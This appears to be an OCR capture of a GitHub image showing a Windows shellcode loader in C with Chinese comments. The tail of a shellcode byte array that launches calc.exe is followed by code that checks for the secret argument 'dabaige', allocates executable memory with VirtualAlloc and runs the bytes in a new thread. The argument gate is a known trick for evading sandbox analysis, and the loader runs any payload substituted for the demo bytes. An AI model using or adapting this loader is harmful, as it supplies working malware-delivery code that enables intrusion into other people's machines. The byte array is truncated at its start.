 ```c_cpp
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
int main(int argc, char* argv[]) {
	if (strcmp(argv[1], "dabaige") != 0) {
		return 1;
	}
	// 使用VirtualAlloc 函数申请一个 shellcode字节大小的可以执行代码的内存块
	LPVOID addr = VirtualAlloc(NULL, sizeof(sc), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	// 申请失败 , 退出
	if (addr == NULL) {
		return 1;
	}
	// 把shellcode拷贝到这块内存
	memcpy(addr, sc, sizeof(sc));
	// 创建线程运行
	HANDLE hThread = CreateThread(NULL,
		NULL,
		(LPTHREAD_START_ROUTINE)addr,
		NULL,
		NULL,
		0);
	// 等待线程运行
	WaitForSingleObject(hThread, -1);
	// 关闭线程
	CloseHandle(hThread);
}
```

![截图](299ababeadf91e1bab2c9f69dccbcad5.png)
